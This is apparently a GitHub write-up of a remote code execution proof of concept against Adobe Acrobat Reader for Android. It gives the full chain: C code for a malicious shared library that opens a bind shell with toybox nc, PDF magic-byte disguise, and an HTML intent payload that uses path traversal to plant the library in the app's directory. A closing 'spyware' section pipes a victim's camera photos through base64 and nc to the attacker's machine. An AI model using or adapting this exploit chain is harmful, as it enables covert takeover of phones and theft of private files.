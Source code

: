 ### Step 0.

The .so file must be prefixed with `lib` and have the extension `.so` in order to be loaded by the JVM. For example, `libhello.so` is loaded by `System.loadLibrary("hello")`.

To understand the attack we had to decompile the APK file using JADX and APKTool, and then reconstruct the machine code into Java code. We used the following command to decompile the APK file.

```bash
apktool d app.apk
```

We then used JADX to decompile the .dex file into Java code. We used the following command to decompile the .dex file.

```bash
jadx -d jadx app.apk
```

![Source Code](images/image.png)

The success of the attack depends on the CPU architecture of the device. If the device is ARM, then the .so file must be compiled for ARM. If the device is x86, then the .so file must be compiled for x86 and so on. Specifically, the .so file must be compiled for the same architecture as the device's CPU architecture otherwise it will not run. Our attack caters to x86_64 and arm64_v8a architectures.

## How it works?

### Step 1.

First create the code that will be compiled into the library code. We have the code stored in code.c.

```C++
#include <jni.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

JNIEXPORT jint JNI_OnLoad(JavaVM *vm, void *reserved)
{
    // Fork a new process
    pid_t pid = fork();

    if (pid == -1)
    {
        // Forking failed
        perror("Forking failed");
        return JNI_ERR;
    }

    if (pid == 0)
        system("toybox nc -p 6666 -L /system/bin/sh -l");

    JNIEnv *env;
    if (vm->GetEnv(reinterpret_cast<void **>(&env), JNI_VERSION_1_6) != JNI_OK)
    {
        return JNI_ERR;
    }

    return JNI_VERSION_1_6;
}

```

### Step 2.

Compile C++ code into shared library binary code using the Android NDK toolchain. This required installing the proper dependencies for compiling shared library code such as CMake. For more information on the NDK toolchain, see
https://developer.android.com/ndk/guides. After it is compiled, the shared library binary code is stored in the `libs` directory.

Edit the binary of the file to add the magic PDF bytes so Adobe will accept it as a PDF file. Any of the first 1024 bytes must be changed to the PDF magic bytes "%PDF" (0x25 0x50 0x44 0x46). We used a hex editor to do this and changed some of the first few bytes that were not being used.

```bash
hexedit libopen_cv_info.so
```

![Hex Editor](images/hex.png)

### Step 3.

The Android NDK toolchain compiles the C++ code into a shared library binary code and this all happens inside of Android Studio. It was simple to confirm the shared library binary code was compiled correctly by checking the logcat output for our print statements.

```Java
public class MainActivity extends AppCompatActivity {

    static { // Copied from source code
        Log.d("OpenCV/StaticHelper", "Trying to load library " + "opencv_info");
        try {
            System.loadLibrary("opencv_info");
            Log.d("OpenCV/StaticHelper", "Library " + "opencv_info" + " loaded");
        } catch (UnsatisfiedLinkError e) {
            Log.d("OpenCV/StaticHelper", "Cannot load library \"" + "opencv_info" + "\"");
            e.printStackTrace();
        }
    }
}
```

![Confirmation](images/confirm.png)

### Step 4.

Now that the code was ready and the PDF magic bytes were added, we needed to host it in a specific directory of our python server.

```bash
python -m http.server 8000
```

This attack uses path traversal to allow us to save the libopencv_info.so file in the library directory of Adobe Acrobat Reader. When attempting path traversal, we found that it was not working because the path traversal was also occurring on our server. So instead of have the file be named after the save location, we created the directory structure in our server and named the file `libopencv_info.so`. This allowed us to save the file in the correct directory and have the correct name. Thus using an intent whenever a user visits our server, it immediately downloads the file and saves it in the correct directory.

```HTML
<html>
	<title>RCE in Adobe Acrobat Reader for Android</title>
	<body>
		<script>
			window.location.href =
				'intent://94.59.94.173:8000/..%2F..%2F..%2F..%2F..%2Fdata%2Fdata%2Fcom.adobe.reader%2Ffiles%2Fsplitcompat%2F1921819312%2Fnative-libraries%2FFASOpenCVDF.config.arm64_v8a%2Flibopencv_info.so#Intent;scheme=http;type=application/*;package=com.adobe.reader;component=com.adobe.reader/.AdobeReader;end';
		</script>
	</body>
</html>
```

### Step 5.

Now the file was saved, whenever the user would restart the app, the shared library file would be executed when using the Fill and Sign feature and thus a reverse shell would be created.

```bash
toybox nc -p 6666 -L /system/bin/sh -l
```

### Step 6.

To confirm if the reverse was successful, we used the ADB debugger and the following command.

```bash
adb -s [device-name] shell
ss -tuln
```

![Port Checker](images/port.png)

### Step 7.

Finally, we used the following command to enter the reverse shell.

```bash
ncat 192.168.0.180 6666
```

How to debug the app using ADB debugger. First, we need to find the device name using the following command.

```bash
adb devices
```

```bash
cd D:\Users\Admin\platform-tools_r34.0.5-windows\platform-tools
adb -s 23c00d78cd0c7ece logcat
```

## Using the reverse shell for spyware

Once the victim's device is compromised, we can use the reverse shell to send the victim's files to our device. We used the following command to send the victim's files to our device. Navigate to the directory where you want to save the files and then run the following command.

```bash
cd storage/emulated/0/DCIM/Camera
```

Open a receiver on your device to receive the files.

```bash
ncat -l 6667 > file.txt
```

Inside the reverse shell, run the following command to send the files to your device.

```bash
cat 20231125_153139.jpg | toybox base64 | toybox nc -w 3 192.168.0.108 6667
```

This will send the file to your device. You can then decode the image using a converter or the following command. I used one online as I had a Windows machine and the command works for Linux.

```bash
cat file.txt | toybox base64 -d > file.jpg
```
